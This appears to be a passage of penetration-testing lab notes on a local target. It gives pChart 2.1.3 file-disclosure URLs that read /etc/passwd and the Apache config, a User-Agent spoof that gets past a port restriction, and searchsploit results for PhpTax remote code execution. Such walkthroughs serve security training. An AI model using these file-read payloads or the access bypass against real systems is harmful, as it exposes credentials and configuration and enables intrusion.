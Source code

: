 - sensitive data leakage
  - `http://192.168.123.127/pChart2.1.3/examples/index.php?Action=View&Script=/etc/passwd`
  - Apache config: `http://192.168.123.127/pChart2.1.3/examples/index.php?Action=View&Script=/usr/local/etc/apache22/httpd.conf`

```
SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser

<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2
```

- set User-Agent, $IP:8080 -> will not be forbidden

#### phptax - remote code injection

- seek exp methods

```
$ searchsploit phptax [x]
PhpTax - 'pfilez' Execution Remote Code Injection (Metasploit)                                                                       | php/webapps/21833.rb
PhpTax 0.8 - File Manipulation 'newvalue' / Remote Code Execution                                                                    | php/webapps/25849.txt
phptax 0.8 - Remote Code Execution                                                                                                   | php/webapps/21665.txt

```

- GET request

```
GET / HTTP/1.1
Host: 192.168.123.127:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/4.0 Mozilla4_browser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```
